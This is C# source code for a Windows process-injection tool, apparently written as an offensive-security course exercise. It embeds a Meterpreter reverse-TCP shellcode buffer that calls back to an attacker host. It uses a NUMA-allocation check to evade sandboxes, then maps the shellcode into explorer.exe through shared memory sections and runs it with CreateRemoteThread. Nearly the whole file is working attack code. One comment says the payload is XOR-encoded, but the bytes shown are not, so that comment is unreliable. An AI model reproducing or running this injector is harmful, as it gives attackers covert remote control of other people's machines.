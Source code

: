 Extra Mile

using System;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;

namespace RemoteShinjectLowlevel
{
    class Program
    {
        public const uint ProcessAllFlags = 0x001F0FFF;
        public const uint GenericAll = 0x10000000;
        public const uint PageReadWrite = 0x04;
        public const uint PageReadExecute = 0x20;
        public const uint PageReadWriteExecute = 0x40;
        public const uint SecCommit = 0x08000000;

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);


        [DllImport("ntdll.dll", SetLastError = true)]
        static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize,
            UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, IntPtr CommitSize,
            out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [System.Runtime.InteropServices.DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static void Main(string[] args)
        {
            // Sandbox evasion
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.232.133 LPORT=443 EXITFUNC=thread -f csharp
            // XORed with key 0xfa
            byte[] buf = new byte[695] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,
0x20,0x51,0x56,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x8b,0x48,
0x18,0x50,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,
0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,
0x48,0x01,0xd0,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,
0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,
0x07,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,
0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
0xe8,0x0e,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,
0x2e,0x37,0x35,0x00,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x01,0x00,0x00,
0x4d,0x31,0xc9,0x53,0x53,0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,
0x00,0x00,0x00,0xff,0xd5,0xe8,0x8d,0x00,0x00,0x00,0x2f,0x34,0x57,0x5a,0x46,
0x75,0x6d,0x64,0x36,0x61,0x4a,0x6c,0x6f,0x4b,0x32,0x6b,0x70,0x43,0x59,0x4d,
0x4c,0x44,0x77,0x54,0x72,0x70,0x33,0x7a,0x53,0x61,0x5f,0x30,0x70,0x45,0x30,
0x79,0x63,0x62,0x78,0x77,0x36,0x75,0x4e,0x31,0x6f,0x30,0x47,0x44,0x77,0x62,
0x5a,0x38,0x66,0x5a,0x5f,0x43,0x4e,0x62,0x7a,0x69,0x4e,0x47,0x47,0x35,0x33,
0x2d,0x53,0x52,0x6f,0x77,0x31,0x79,0x55,0x2d,0x33,0x42,0x78,0x68,0x6b,0x32,
0x71,0x66,0x42,0x79,0x6c,0x2d,0x45,0x50,0x38,0x6b,0x5a,0x51,0x69,0x65,0x44,
0x4b,0x6e,0x6d,0x39,0x33,0x78,0x52,0x41,0x34,0x5f,0x72,0x68,0x6c,0x68,0x5a,
0x4c,0x30,0x4d,0x6b,0x32,0x67,0x6d,0x49,0x47,0x4b,0x54,0x64,0x49,0x2d,0x75,
0x30,0x35,0x4c,0x35,0x4c,0x4a,0x70,0x65,0x33,0x75,0x78,0x6b,0x54,0x32,0x6f,
0x00,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x00,
0x32,0xa8,0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,
0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,0x89,0xf1,0x6a,0x1f,
0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,0x04,0x41,0x59,0x49,
0xba,0x75,0x46,0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,0x31,0xc0,0x53,
0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,
0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,
0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,
0xff,0xcf,0x74,0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,0x59,0x6a,0x40,
0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,0x10,0x00,0x00,0x49,
0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0x93,0x53,0x53,
0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x00,0x20,0x00,
0x00,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,0x00,0x00,0x00,0xff,
0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,0xc3,
0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,
0x41,0x89,0xda,0xff,0xd5 };


            int len = buf.Length;
            uint uLen = (uint)len;

            // Get a handle on the local process
            IntPtr lHandle = Process.GetCurrentProcess().Handle;
            Console.WriteLine($"Got handle {lHandle} on local process.");

            // Grab the right PID
            string targetedProc = "explorer"; //change :)
            int procId = Process.GetProcessesByName(targetedProc).First().Id;

            // Get a handle on the remote process
            IntPtr pHandle = OpenProcess(ProcessAllFlags, false, procId);
            Console.WriteLine($"Got handle {pHandle} on PID {procId} ({targetedProc}).");

            // Create a RWX memory section with the size of the payload using 'NtCreateSection'
            IntPtr sHandle = new IntPtr();
            long cStatus = NtCreateSection(ref sHandle, GenericAll, IntPtr.Zero, ref uLen, PageReadWriteExecute, SecCommit, IntPtr.Zero);
            Console.WriteLine($"Created new shared memory section with handle {sHandle}. Success: {cStatus == 0}.");

            // Map a view of the created section (sHandle) for the LOCAL process using 'NtMapViewOfSection'
            IntPtr baseAddrL = new IntPtr();
            uint viewSizeL = uLen;
            ulong sectionOffsetL = new ulong();
            long mStatusL = NtMapViewOfSection(sHandle, lHandle, ref baseAddrL, IntPtr.Zero, IntPtr.Zero, out sectionOffsetL, out viewSizeL, 2, 0, PageReadWrite);
            Console.WriteLine($"Mapped local memory section with base address {baseAddrL} (viewsize: {viewSizeL}, offset: {sectionOffsetL}). Success: {mStatusL == 0}.");

            // Map a view of the same section for the specified REMOTE process (pHandle) using 'NtMapViewOfSection'
            IntPtr baseAddrR = new IntPtr();
            uint viewSizeR = uLen;
            ulong sectionOffsetR = new ulong();
            long mStatusR = NtMapViewOfSection(sHandle, pHandle, ref baseAddrR, IntPtr.Zero, IntPtr.Zero, out sectionOffsetR, out viewSizeR, 2, 0, PageReadExecute);
            Console.WriteLine($"Mapped remote memory section with base address {baseAddrR} (viewsize: {viewSizeR}, offset: {sectionOffsetR}). Success: {mStatusR == 0}.");



            // Copy shellcode to locally mapped view, which will be reflected in the remote mapping
            Marshal.Copy(buf, 0, baseAddrL, len);
            Console.WriteLine($"Copied shellcode to locally mapped memory at address {baseAddrL}.");

      
            // Execute the remotely mapped memory using 'CreateRemoteThread' (EWWW high-level APIs!!!)
            if (CreateRemoteThread(pHandle, IntPtr.Zero, 0, baseAddrR, IntPtr.Zero, 0, IntPtr.Zero) != IntPtr.Zero)
            {
                Console.WriteLine("Injection done! Check your listener!");
            }
            else
            {
                Console.WriteLine("Injection failed!");
            }

            // Unmap the locally mapped section view using 'NtUnMapViewOfSection'
            uint uStatusL = NtUnmapViewOfSection(lHandle, baseAddrL);
            Console.WriteLine($"Unmapped local memory section. Success: {uStatusL == 0}.");

            // Close the section
            int clStatus = NtClose(sHandle);
            Console.WriteLine($"Closed memory section. Success: {clStatus == 0}.");
        }
    }
}